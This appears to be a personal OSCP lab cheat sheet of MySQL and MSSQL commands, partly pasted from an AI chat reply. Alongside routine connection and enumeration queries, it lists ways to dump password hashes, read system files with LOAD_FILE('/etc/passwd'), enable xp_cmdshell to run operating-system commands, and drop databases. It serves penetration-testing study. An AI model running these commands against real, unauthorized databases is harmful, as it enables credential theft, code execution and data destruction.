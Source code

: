 ##### MySQL
```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```
might have to add --ssl=0 flag **
simple command to connect to a mySQL server(99% of the time they will run on port 3306)
some commands you can run once in:
```
select version();

select system_user();

show databases;
next
USE database_name;
next
SHOW TABLES;

SELECT user, host, plugin FROM mysql.user;
or if using mysql TABLE
SELECT user, host, plugin FROM user;

ALTER USER 'root'@'%' IDENTIFIED WITH mysql_native_password BY 'YourPassword';
FLUSH PRIVILEGES;
```

note - The _root_ user in this example is the database-specific root user, not the system-wide administrative root user.

```
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```
This gets the user and pass from the user table for the user 'offsec'

---

##### MSSQL

mainly for windows**

Kali Linux includes [_Impacket_](https://github.com/SecureAuthCorp/impacket), a Python framework that enables network protocol interactions. Among many other protocols, it supports [_Tabular Data Stream_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/893fcc7e-8a39-4b3c-815a-773b7b982c50/) (TDS), the protocol adopted by MSSQL that is implemented in the _impacket-mssqlclient_ tool.

```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

common commands:
```
SELECT @@version;

SELECT name FROM sys.databases;

SELECT * FROM offsec.information_schema.tables;

USE database_name;
GO
SELECT table_name FROM information_schema.tables  ** shows what tables in used db

SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT * FROM offsec.information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
offsec          dbo            users        b'BASE TABLE' 

select * from offsec.dbo.users;

SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table_name';
```

NOTE - When using an SQL Server command line tool like sqlcmd, we must submit our SQL statement ending with a semicolon followed by _GO_ on a separate line. However, when running the command remotely, we can omit the GO statement since it's not part of the MSSQL TDS protocol.

MySQL accepts both _version()_ and _@@version_ statements.

_master_, _tempdb_, _model_, and _msdb_ are default databases aka might not have useful info

---


**maybe helpful
**📌 Essential MySQL & MSSQL Commands for OSCP**

**🔥 MySQL Commands**

  

**🔎 Enumeration & Discovery**

```
SELECT VERSION();                   -- Get MySQL version
SELECT USER();                      -- Show current user
SELECT DATABASE();                   -- Show the selected database
SHOW DATABASES;                      -- List all databases
USE database_name;                   -- Select a database
SHOW TABLES;                         -- List all tables in the selected database
DESCRIBE table_name;                 -- Show table structure (columns and types)
SHOW COLUMNS FROM table_name;        -- Alternative way to see table schema
```

**🔍 Data Extraction**

```
SELECT * FROM table_name;            -- Dump all rows from a table
SELECT column1, column2 FROM table_name;  -- Select specific columns
SELECT * FROM table_name WHERE column_name = 'value';  -- Filtered search
```

**⚡ Privilege Escalation & Credentials Extraction**

```
SELECT host, user, authentication_string FROM mysql.user;  -- Show MySQL users & password hashes
SELECT LOAD_FILE('/etc/passwd');   -- Try to read local system files
```

**🔁 Dumping & Restoring Data**

```
mysqldump -u root -p database_name > backup.sql    # Dump database
mysql -u root -p database_name < backup.sql        # Restore database
```



**🔥 MSSQL Commands (Microsoft SQL Server)**

**🔎 Enumeration**

```
SELECT @@version;                  -- Get SQL Server version
SELECT SUSER_NAME();               -- Show current user
SELECT IS_SRVROLEMEMBER('sysadmin');  -- Check if user has admin privileges
SELECT name FROM sys.databases;    -- List all databases
USE database_name;                 -- Select a database
SELECT name FROM database_name.sys.tables;  -- List all tables in a database
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='table_name';  -- List columns of a table
```

**🔍 Data Extraction**

```
SELECT * FROM table_name;              -- View all data in a table
SELECT column1, column2 FROM table_name;  -- Select specific data
SELECT * FROM table_name WHERE column_name = 'value';  -- Filtered search
```

**⚡ Privilege Escalation & Exploitation**

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
xp_cmdshell 'whoami';  -- Execute system command (if xp_cmdshell is enabled)
```

**📤 Exfiltrating Hashes**

```
SELECT name, password_hash FROM sys.sql_logins;  -- Dump password hashes
```

**💣 Dumping All Data**

```
EXEC sp_MSforeachtable 'SELECT * FROM ?';
```

**🛑 Delete a Database/Table (Use with caution!)**

```
DROP DATABASE database_name;
DROP TABLE table_name;
```

**💀 OSCP Tips**

1. **Use mysql -u root -p** or **mssqlclient.py** (from Impacket) to connect to MySQL/MSSQL remotely.

2. **Extract credentials** and check for reused passwords across services.

3. **Look for stored procedures or enabled xp_cmdshell** to escalate privileges.

4. **Leverage LOAD_FILE() and xp_cmdshell for local file reading & command execution.**

5. **Always check database permissions using SHOW GRANTS FOR user;** in MySQL.

These commands should cover **90% of OSCP scenarios** related to **database exploitation**. Let me know if you need more! 🚀
